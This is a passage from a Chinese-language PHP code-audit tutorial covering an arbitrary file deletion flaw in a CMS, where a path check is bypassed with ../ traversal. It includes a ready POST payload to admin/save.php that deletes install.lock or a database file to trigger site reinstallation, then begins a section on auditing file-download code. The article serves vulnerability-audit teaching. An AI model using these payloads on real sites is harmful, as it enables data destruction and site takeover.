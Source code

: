 ```
function file\_path( $path ) {
    $list=array();
    $path= substr( $path, 0, strrpos( $path, '/' ));
    $list=splits($path,'/');
    return $list;
}
function arr\_search($arr1, $arr2 ) {
    $result=false;
    foreach ( $arr1 as $v ) {
       if(in\_array( $v,$arr2 )) return true;
    }
    return $result;
}

```

获取参数，然后看看我们传入的路径是否存在这个数组里面的值，也就是基本上是没有过滤的，因为我们完全可以通过../ 跳回去。

**payload：**

```
POST /zzzp6p/admin/save.php?act=delfile
path=/zzzp6p/upload/../install/1install.lock

```

```
array( 'php', 'db', 'mdb', 'tpl' )

```

要删除任意文件只需要使用

```
path=/zzzp6p/runtime/../install/1.db

```

让**`ifstrin()`**为 true 走上面的分支即可。

一般来说我们任意文件删除 是配合删除 **install.lock** 来达到网站重装漏洞。

### **0x02 任意文件下载**

任意文件下载常见于文件的显示和下载的地方，一般关注的文件是和下载有关的，比如 download。当然你还可以搭建源码，来寻找能够下载的地方。

常见的下载或读取函数:**`file_get_contents()`、`readfile()`、`fopen()`**

在网上找到个别人审计的实例，结合起来审计一下，用到的源码是 Ear\_Music\_20180820\_UTF8

搜索 down 相关的词语，找到文件 **\\template\\default\\source\\down.php**

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqdMpF2uCUNnL2tZf8CrQrOm3gzQRAPoyYicgwFFLjEMala90YJ8mia3NUGEOWM4xjiaibaz8ABKMhWZXg/640?wx_fmt=png)

我们看看**`$file`参数**怎么来的, 先是调用函数**`getfield()`**, 转到函数去看看

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqdMpF2uCUNnL2tZf8CrQrOmiciaYLqiczHsq3GKT8t6RHKGS7Rfom5PNxHt6LsRtI00KOygEu6roZaEw/640?wx_fmt=png)
